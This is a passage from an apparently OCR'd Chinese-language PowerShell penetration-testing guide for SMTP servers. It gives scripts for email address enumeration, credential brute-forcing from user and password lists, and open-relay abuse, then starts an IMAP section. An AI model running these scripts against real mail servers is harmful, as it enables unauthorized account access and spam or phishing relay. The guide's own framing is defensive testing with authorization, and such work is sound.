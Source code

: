 ```
 $email_addresses = "use r1@snowcap cyber.com", "use r2@snowcap cyber.com", "use r3@snowcap cyber.com"
$valid_addresses = @()
foreach ($address in $email_addresses) {
    $result = Send-MailMessage -To $address -From "attacker@snowcapcyber.com" -SmtpServer mail.snowcapcyber.com -ErrorAction SilentlyContinue
    if ($result -eq $null) {
        $valid_addresses += $address
    }
}
Write-Host "Valid Email Addresses: $($valid_addresses -join ', ')"
```

### 暴力破解攻击

PowerShell 可以通过反复尝试使用不同的用户名和密码组合登录 SMTP 账户，自动化暴力破解攻击。**Send-MailMessage** cmdlet 可以与不同的凭证一起使用来执行此操作：

```
 $passwords = Get-Content "passwords.txt"
$users = Get-Content "users.txt"
foreach ($user in $users) {
    foreach ($password in $passwords) {
        Send-MailMessage -To "use r@snowcap cyber.com" -From $user -SmtpServer mail.snowcapcyber.com -Credential (New-Object System.Management.Automation.PSCredential($user, (ConvertTo-SecureString -String $password -AsPlainText -Force)))
    }
}
```

此脚本尝试使用不同的用户名和密码组合发送电子邮件，可能会获得未经授权的访问。

### 邮件中继滥用

如果 SMTP 服务器配置错误或不安全，攻击者可以利用其进行未经授权的电子邮件中继，用于向外部收件人发送垃圾邮件或钓鱼邮件。PowerShell 可以自动化此过程，模拟电子邮件中继攻击：

```
 Send-MailMessage -To "extern al@snowcap cyber.com" -From "user@snowcapcyber.com" -SmtpServer mail.snowcapcyber.com
```

如果 SMTP 服务器允许未经授权的中继，则此电子邮件将成功发送到外部收件人。

总之，PowerShell 可以成为渗透测试 SMTP 服务器的强大工具，帮助识别电子邮件基础设施中的漏洞。然而，必须负责任、合乎道德地进行此项任务，并且需要获得适当的授权。目标是提升 SMTP 服务器的安全性和韧性，防范基于电子邮件的威胁，确保电子邮件服务的机密性、完整性和可用性。

# PowerShell 与 IMAP

对 IMAP 服务器执行漏洞测试是确保电子邮件基础设施安全的重要任务。PowerShell，微软开发的强大脚本语言和自动化框架，可以成为这一任务的重要工具。在本指南中，我们将探讨如何使用 PowerShell 评估 IMAP 服务器的安全性。我们将涵盖基本概念和命令，并提供详细的示例，帮助您进行全面的漏洞测试。

## IMAP 服务器漏洞

